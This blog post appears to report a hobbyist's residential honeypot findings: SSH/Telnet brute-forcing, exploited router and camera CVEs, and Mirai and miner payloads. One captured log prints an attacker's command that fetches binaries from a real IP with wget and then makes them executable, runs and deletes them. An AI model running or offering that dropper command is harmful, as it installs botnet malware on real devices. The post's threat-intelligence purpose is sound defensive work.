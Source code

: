 ```yaml
---
title: Yesterday's Router, Today's Pivot!
slug: yesterdays-router-todays-pivot
date_published: 2025-05-29T21:51:34+00:00
date_updated: 2025-05-29T21:51:34+00:00
tags: Threat-Intel, Linux, Oaks-Internet-Safari
excerpt: Hunting Residential Threats and Fighting Automated Botnets
cover: '2025/5/yesterdays-router-todays-pivot/banner.png'
author:
  name: OakAtsume
  avatar: 'avatars/oak.jpg'
---
```


# Yesterday's Router, Today's Pivot!

**Residential Threat Hunting and the War on Automated Threats and Botnets** </br>
*By: Oak Atsume* </br>

## Introduction

My goal with this project was simple: to understand what kind of threats are actually hitting people like ***you and me***. Most cybersecurity research focuses on big enterprise or industrial infrastructure. But what about our homes, our routers, our smart devices?

I believe the residential space deserves more attention. That’s where real people live, and where real threats land. And guess what? Monitoring a home network gives us an unfiltered look into what’s going on across the Internet.</br>
(*Spoiler: it’s a lot of **Mirai** and Crypto **miners***) </br>

## Someone's knocking...

Since I started running a honeypot in a residential network, one thing became clear: **we're under constant attack!** 

Governments like to point fingers at China, Russia, North Korea. But in reality, it's often more mundane. The biggest threat to our digital lives may not be a foreign nation, but instead **the negligence of vendors and users alike!**
![Attack Map](2025/5/yesterdays-router-todays-pivot/country-map.png)

## Who's Knocking, and What are they doing??

The vast majority of attacks I observed targeted Unix-like devices, Routers, IP Cameras, NAS Boxes, etc.  
The attackers typically rely on two approaches:

* **Brute Force Attacks** on SSH/TELNET credentials.
![Creds-Map](2025/5/yesterdays-router-todays-pivot/creds.png)

* **Exploitation of known vulnerabilities** in outdated devices.
![Attack](2025/5/yesterdays-router-todays-pivot/attack.png)

It's not sophisticated, but it doesn't have to be! It only takes one vulnerable device to give an attacker a foothold.

### Notably used CVEs
* **CVE-2024-6047** - Command injection for GeoVision IoT systems  
* **CVE-2024-4577** - CGI argument injection in PHP (can lead to RCE)  
* **CVE-2023-1389** - Command injection in TP-Link Archer AX-21 routers

And more!  
These aren't "zero-days". They're simply still relevant because **companies don’t patch, and users don’t update**!  
That's the real threat here.

## They’re In. Now What?

Once attackers gain access, they typically drop one of three things:

* A variant of **Mirai** or **Gafgyt** to enroll the device into a botnet  
* A **cryptocurrency miner** (usually XMRig)  
* A **downloader script** to fetch more malware  

```json
  {
    "ip": "176.65.148.181",
    "port": 2222,
    "country": "Germany",
    "city": null,
    "lat": 51.2993,
    "lon": 9.491,
    "firstSeen": 1745895007,
    "lastSeen": 1745895015,
    "loginPasswordAttempts": [
      {
        "timestamp": 1745895011,
        "username": "root",
        "password": "admin"
      }
    ],
    "loginKeyAttempts": [

    ],
    "executedCommands": [
      {
        "timestamp": 1745895014,
        "command": "cd /tmp; wget 209.141.34.106/PangaKenya/KKveTTgaAAsecNNaaaa.x86_64; chmod +x KKveTTgaAAsecNNaaaa.x86_64; ./KKveTTgaAAsecNNaaaa.x86_64 ; rm -rf KKveTTgaAAsecNNaaaa.x86_64; wget 209.141.34.106/PangaKenya/KKveTTgaAAsecNNaaaa.x86; chmod +x KKveTTgaAAsecNNaaaa.x86; ./KKveTTgaAAsecNNaaaa.x86 ; rm -rf KKveTTgaAAsecNNaaaa.x86",
        "successful": true
      }
    ],
    "uploadedFiles": [

    ],
    "downloadedFiles": [
      {
        "timestamp": 1745895014,
        "filename": null,
        "sha": "811cd6ebeb9e2b7438ad9d7c382db13c1c04b7d520495261093af51797f5d4cc"
      },
      {
        "timestamp": 1745895014,
        "filename": null,
        "sha": "9ac2e308b0b30354575bba88169283fa7439d34937a148ccb390bcec3c6e296b"
      }
    ]
  }
```

> Example of an observed log.

Often, these devices aren’t the end goal—they’re stepping stones. Your router becomes **someone else’s launchpad**. A pivot point for scanning, attacking, or anonymizing future activity.

## The Bots Are Winning

These threats aren’t launched by people sitting at a keyboard. What I’m observing is an **entirely automated threat landscape**.

The cycle looks like this:

1. Scan
2. Fingerprint
3. Exploit
4. Drop malware
5. Monetize
6. Move on

If it fails? No problem. Move to the next IP. It’s a numbers game, and the bots play it well.

## From Curiosity to Chaos

Over the weeks I’ve been running this honeypot, a clear pattern has emerged:

1. A new, easy-to-exploit CVE appears
2. A fresh botnet variant (often Mirai-based) emerges to exploit it
3. It spreads rapidly, monetizing devices along the way

It happens fast. In days. The ecosystem is efficient, ruthless, and almost entirely unsupervised.

---

## Final Thoughts

Our homes are on the frontlines of a silent war. And the scariest part? Most people have no idea it’s happening.

If this project has taught me anything, it’s this: **residential cybersecurity deserves more attention**. Not just for the sake of privacy or convenience, but because our homes are being conscripted into someone else’s cyberwar.

We may not be able to stop every attack, but we can do something even more powerful: **understand them**. And understanding is the first step toward fighting back.

![Skibbity-Toilet](2025/5/yesterdays-router-todays-pivot/atack-logs.png)

> Break-Thru, I acknowledge this blog is very boring lol; but it's meant to be formal. Hopefully if I have more time I will make some more that are fun!

